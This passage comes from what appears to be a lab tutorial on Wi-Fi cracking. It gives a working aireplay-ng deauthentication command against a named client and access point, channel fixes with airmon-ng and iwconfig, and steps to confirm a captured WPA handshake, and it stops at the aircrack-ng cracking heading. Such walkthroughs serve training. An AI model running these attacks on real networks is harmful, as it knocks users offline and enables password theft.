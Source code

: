 
You will see the Client/Station device, also known as the Laptop, disconnect from the network and reconnect.

Press CTRL+C to stop the Deauthentication attack

## Possible Wrong Channel Issue

┌──(root💀kali)-[/home/kali]
└─# aireplay-ng --deauth 0 -c b8:e8:56:2d:91:3c -a  74:83:C2:C7:06:44 wlan0mon
19:09:30  Waiting for beacon frame (BSSID: 74:83:C2:C7:06:44) on channel 12
19:09:30  wlan0mon is on channel 12, but the AP uses channel 11
┌──(root💀kali)-[/home/kali]
└─# 

If you get this issue change to channel 11 with

`sudo airmon-ng start wlan0mon 11`

or

`sudo iwconfig wlan0mon channel 11`

## Confirm Handshake Capture
![Screenshot](https://github.com/CRLTeam/IoTRange/blob/main/images/wifi-cracking/image8.png?raw=true)


If the Deauthentication attack is successful, we will see the handshake captured here.

In the lower, Client section, we can also see in Notes we now have the EAPOL note, which is an authentication protocol and is related to our handshake capture. 

Using the Linux command 

`ls`

we can see the list of files in the current directory
![Screenshot](https://github.com/CRLTeam/IoTRange/blob/main/images/wifi-cracking/image9.png?raw=true)

Here we see all the files associated with the capture, including the one ending in .cap, which is our captured handshake.

## Cracking the captured handshake with Aircrack-ng
